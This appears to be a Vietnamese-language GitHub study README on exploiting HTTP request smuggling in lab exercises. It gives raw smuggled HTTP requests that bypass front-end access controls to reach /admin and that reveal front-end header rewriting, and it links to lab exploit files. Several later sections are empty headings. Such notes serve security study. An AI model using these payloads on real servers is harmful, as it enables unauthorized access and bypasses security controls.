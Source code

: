 # Exploiting HTTP request smuggling vulnerabilities.

## Using HTTP request smuggling to bypass front-end security controls.

- Trong một số ứng dụng, máy chủ web front-end được sử dụng để triển khai một số kiểm soát bảo mật, quyết định xem có cho phép xử lý các yêu cầu riêng lẻ hay không. Các yêu cầu được phép sẽ được chuyển tiếp đến máy chủ back-end, nơi chúng được coi là đã vượt qua các điều khiển front-end.

- Giả sử người dùng hiện tại được phép truy cập */home*, nhưng không được truy cập */admin*. Họ có thể bỏ qua hạn chế này bằng cách sử dụng cuộc tấn công request smuggling sau:
```
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```
 
 - Lab:
 	+ Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability.[exploit](exploit/lab6.txt)
 	+ Lab: Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability.[exploit](exploit/lab7.txt)

## Revealing front-end request rewriting.

- Trong nhiều ứng dụng, máy chủ front-end thực hiện một số việc viết lại các yêu cầu trước khi chúng được chuyển tiếp đến máy chủ back-end, thường bằng cách thêm một số tiêu đề yêu cầu bổ sung.
- Trong một số tình huống, payload request smuggling của bạn thiếu một số tiêu đề thường được thêm bởi máy chủ front-end, thì máy chủ back-end có thể không xử lý các yêu cầu theo cách bình thường, dẫn đến không đạt được hiệu quả như mong muốn.
 
- Thường có một cách đơn giản để tiết lộ chính xác cách máy chủ front-end đang viết lại các yêu cầu.

	+ Tìm một yêu cầu POST phản ánh giá trị của tham số yêu cầu vào phản hồi của ứng dụng.
	+ Xáo trộn các tham số để tham số được phản ánh xuất hiện cuối cùng trong nội dung thư.
	+ Chuyển yêu cầu này đến máy chủ back-end, theo sau trực tiếp là một yêu cầu bình thường có biểu mẫu được viết lại mà bạn muốn tiết lộ.

- Ví dụ:
```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

> <input id="email" value="wiener@normal-user.net" type="text">

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
``` 
- Các yêu cầu sẽ được máy chủ front-end viết lại để bao gồm các tiêu đề bổ sung, sau đó máy chủ back-end sẽ xử lý request smuggling và coi yêu cầu thứ hai được viết lại là giá trị của email. Sau đó, nó sẽ phản ánh giá trị này trở lại trong phản hồi cho yêu cầu thứ hai:

```
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

## Bypassing client authentication.


## Capturing other users' requests.


## Using HTTP request smuggling to exploit reflected XSS.

## Using HTTP request smuggling to turn an on-site redirect into an open redirect.

## Using HTTP request smuggling to perform web cache poisoning.

## Using HTTP request smuggling to perform web cache deception.


## 